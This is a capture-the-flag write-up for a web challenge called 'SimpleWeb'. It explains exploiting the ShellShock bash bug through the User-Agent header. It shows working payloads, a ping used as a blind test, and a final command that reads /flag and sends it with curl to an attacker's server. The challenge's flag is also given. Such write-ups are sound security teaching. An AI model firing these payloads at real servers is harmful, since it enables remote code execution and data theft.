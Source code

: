 #SimpleWeb

**Category:** Web
**Points:** 40

**Description:**

You know i am a little noob in web developing. so i just started to create a simple web. But yesterday this crazy friend of mine shocked me to death and said he just hacked my webpage and can read all of my files. VOW! how the hell he did that. can you check it out. for example can you see what is in /flag to prove me he is right.

##SimpleWeb-Solution:

The challenge is created using bash & cgi. Website is very simple and contains nothing just a bunch of static pages. 
There is a hint in description of challenge that says: ```... But yesterday this crazy friend of mine shocked me to death ....``` and will remind us the ShellShock vulnerability that could lead to code execution on server running with bash.

One of the methods to exploit using shellshock, is setting shellshock magic code ```() { :; };``` in user-agent field of http-request-header.
So let's test it. 

Fire up something like tamper-data or burpsuite and set code below in user-agent:

```
() { :; } ; /bin/bash -c "cat /flag"
```

we will get a error result and will not see what is in ```/flag``` file.

```html
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 192.168.32.136 Port 80</address>
```

Running some other commands, we can see that using ```ping``` will give us a huge hint:

```
() { :; } ; /bin/bash -c "ping -c 10 google.com"
```

By executing this command, page will be loaded after 10 ping request sent. So we definetly sure that this is ShellShock vulnerability and flag is only accessible by exploiting it.
There is no way to see the contents of ```/flag``` in the response, so we should find a way to read flag.

***Magic Solution***
------
What if we read ```/flag``` file, but doesn't show it's content in the response? What if we send this result back to our server.
YES.

####The solution is to read /flag, then send that result to our server using something like curl and on our server setup wireshark or read access.log file.

By using this command and firing up wireshark on our server, we could get the flag:

```
() { :; } ; /bin/bash -c "cat /flag | curl -X GET -d @- http://<our server address>"
```

This command will read contents of ```/flag``` and will pipe it into curl. curl will use this value and will send  a ```GET``` request to our server like this:

```
curl -X GET http://<our server address>/<contents of "/flag">
```

On the other hand if we check our server log-files or wireshark/tshark output, we will see a GET request for a url like below:

```
http://simpleweb.iutcert.io/Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo
```

So the directory after simpleweb.iutcert.io, is actually the contents of ```/flag```:

```
Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo=
```

it's obvious that it is base64-encoded. decoding it will give us:

```
Chet Ramey is the maintainer of ShellShock vulnerability. flag is Sh3ll5h0CK_41m057_k!113d_B45HHH
```

And the flag is: 
**Sh3ll5h0CK_41m057_k!113d_B45HHH**


